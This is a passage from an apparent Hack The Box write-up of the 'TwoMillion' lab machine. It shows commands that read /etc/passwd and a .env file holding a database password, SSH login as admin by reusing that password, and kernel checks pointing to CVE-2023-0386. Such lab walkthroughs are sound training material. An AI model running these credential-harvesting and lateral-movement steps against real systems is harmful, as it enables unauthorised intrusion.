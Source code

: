 ## Lateral Movement

```terminal
www-data@2million:~/html$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
admin:x:1000:1000::/home/admin:/bin/bash

www-data@2million:~/html$ ls -al
-rw-r--r--  1 root root   87 Jun  2  2023 .env

www-data@2million:~/html$ cat .env
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```
```terminal
/home/kali/Documents/htb/machines/twomillion:-$ ssh admin@10.10.11.221
admin@10.10.11.221's password: SuperDuperPass123

admin@2million:~$ cat user.txt
```

---
## Privilege Escalation

```terminal
admin@2million:~$ find / -user admin -type f 2>/dev/null
/var/mail/admin
```

![](/assets/img/htb-writeup-twomillion/twomillion4_1.png)

<https://securitylabs.datadoghq.com/articles/overlayfs-cve-2023-0386/#check-if-your-system-is-vulnerable>

```terminal
admin@2million:~$ uname -r
5.15.70-051570-generic

admin@2million:~$ uname -a
Linux 2million 5.15.70-051570-generic #202209231339 SMP Fri Sep 23 13:45:37 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
```
Parece que el sistema es vulnerable, CVE-2023-0386.
